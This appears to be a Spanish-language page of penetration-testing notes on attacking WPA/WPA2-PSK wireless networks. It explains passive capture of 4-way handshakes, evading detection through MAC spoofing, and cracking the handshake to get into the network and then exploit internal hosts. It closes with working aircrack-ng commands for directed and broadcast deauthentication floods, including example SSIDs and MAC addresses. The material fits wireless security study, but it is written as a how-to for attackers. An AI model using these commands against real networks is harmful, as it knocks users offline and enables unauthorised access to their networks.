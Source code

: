 























## Ataques y Vulneración de WLANs - `WPA/WPA2 (PSK)`

### Captura Pasiva de Frames + Explotación de WLAN

- Es posible capturar 802.11 Frames tan solo monitoreando la red por un periodo de tiempo y buscar los eapol con `wireshark` o `airodump`.

    - `Activo` se refiere a ejecutar ciertas funciones maliciosas como `de-authentication attacks` para obtener `4-way-handshake` de manera intrusiva. 
    - `Pastivo` se refiere a no modificar ningún comportamiento en la red LAN o WLAN para obtener los frames deseados, simplemente esperar por el momento para ser capturado, por ejemplo un log-in real de un cliente a la red WLAN.

Actuar de manera pasiva ayuda para que los ataques y las intenciones del atacante no sean descubiertas tán fácilmente, sin embargo, aún existen técnicas como `MAC Spoofing` que permiten ocultar la dirección MAC real del atacante. 

Cualquiera que sea el caso, el final lo importante es obtener el `4-way-handshake` y capturar los frames para al final intentar crackearlos y asó obtener acceso a la red. La red después puede ser mapeada y enumerada y así seguir con el proceso de vulneración y explotación de los clientes internos como clientes, servidores, routers, etc. 

---

### Deauthentication Attack

````sh
   #
   #  DEAUTHENTICATION ATTACK: DIRECTED (Dirigido a un solo objetivo)
   #

# 1. Ventana a) Poner la interface en modo `monitor` y monitorear el aire
# OJO!!! PONERSE EN EL MISMO CANAL DE LA STA VÍCTIMA (Ej, `-c 11`)
airmon-ng check kill && airmon-ng start wlan0 && airodump-ng wlan0mon -c 6 

# 2. `Ventana b)` Lanzar ataque de `Deauthentication` al SSID/BSS (En este caso 10,000 deauth Frames)
# Opcion 1 (SSID)
aireplay-ng --deauth 10000 -e Fz3r0_Air_PWN -c C8:94:02:B9:10:33 wlan0 
# Opcion 2 (BSSID)
aireplay-ng --deauth 10000 -a 30:45:96:D7:F2:3E -c c8:94:02:b9:10:33 wlan0

# 3. En la Ventana a) recibiremos el `WPA handshake: 30:45:96:D7:F2:3E` en la parte superior derecha

   #
   #  DEAUTHENTICATION ATTACK: GLOBAL (Cualquier STA del SSID)
   #

# Opcion 1: Enviar al SSID hacia una MAC broadcast como `FF:FF:FF:FF:FF:FF`
aireplay-ng --deauth 10000 -e Fz3r0_Air_PWN -c FF:FF:FF:FF:FF:FF wlan0mon
````